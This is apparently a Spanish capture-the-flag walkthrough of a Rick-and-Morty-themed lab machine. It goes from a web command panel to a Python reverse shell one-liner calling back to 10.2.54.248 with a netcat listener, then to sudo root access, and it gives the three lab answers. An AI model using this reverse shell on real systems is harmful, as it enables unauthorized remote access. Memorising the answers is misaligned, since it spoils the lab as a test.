






# Pa dentrooooooooo !!!!! 

Sabemos que tenemos un usuario y una contraseña potencial, así que intentaremos.

```bash
Username: R1ckRul3s
Password: Wubbalubbadubdub
```

**Perfecto !!!** hemos obtenido acceso.

Tenemos varias secciones, pero si les soy sincero, me interesa más la de commands.



Algo que podemos realizar es ver, si podemos ejecutar comandos directamente desde aquí, daremos un ls, y vemos que podemos contestar la primera pregunta si hacemos un **cat Sup3rS3cretPickl3Ingred.txt**


Vemos que la página es un poco troll, y al hacer cat no nos deja, pues... lo que haremos es ver si podemos hacer ejecución de otros binarios que nos puedan permitir una reverse shell, por ejemplo con python 3, si usamos el siguiente comando podemos comprobar:

```bash
python3 -c "print('Jamiel')"
```



**Yupii !!!!** Vemos que tenemos ejecución, por lo tanto usaremos in oneliner con python3 que nos permitirá ganar acceso a la máquina directamente: 

```bash
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.2.54.248",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

Para esto en paralelo tendremos que correr nuestro netcat en nuestra terminal:

```bash 
nc -lnvp 1234
```

!!! Info
    **Esto se tiene que hacer antes de ejecutar el onliner de python3**

Una vez tengamos ready el el **netcat**, ejecutamos nuestro **oneliner**, recordar que tenemos que ajustar la ip y el puerto según nuestros requerimientos y pufff, hemos obtenido acceso al serv.



Ahora si podemos ver el primer ingrediente


**mr. meeseek hair**

Una buena práctica es ejecutar las siguientes lineas mostradas abajo, para poder crear una consola mucho más interactiva:

```bash
script /dev/null -c bash
control z
stty raw -echo; fg
reset
xterm
export TERM=xterm
export SHELL=bash
```

Ya que tenemos nuestra consola interactiva, procedemos a buscar nuestro segundo ingrediente. Primero buscaremos entre los archivos de la ruta /var/www/html, me encontré que el archivo clue.txt dice lo mostrado en la imagen.




!!! Pregunta-1 
    **What is the first ingredient Rick needs?**

    mr. meeseek hair

---------------------------------------

Leido lo que dice el archivo, y deduciendo que es una máquina easy, fuimos a home, encontramos un user llamado rick, accedemos a su dir y encontraremos al archivo que buscamos.



!!! Pregunta-2
    **Whats the second ingredient Rick needs?**

    1 jerry tear

----------------------------------------

Por deducción, imagino que el tercer archivo debe estar dentro de root, pero para poder acceder a este dir necesitamos tener privilegios, uno de los comandos más comunes que tenemos que utilizar es "**sudo -i**" y efectivamente tenemos el root, ya podemos dirigirnos a /root y hacerle un cat a nuestro tercer archivo.



!!! Pregunta-3
    **Whats the final ingredient Rick needs?**
 
    fleeb juice
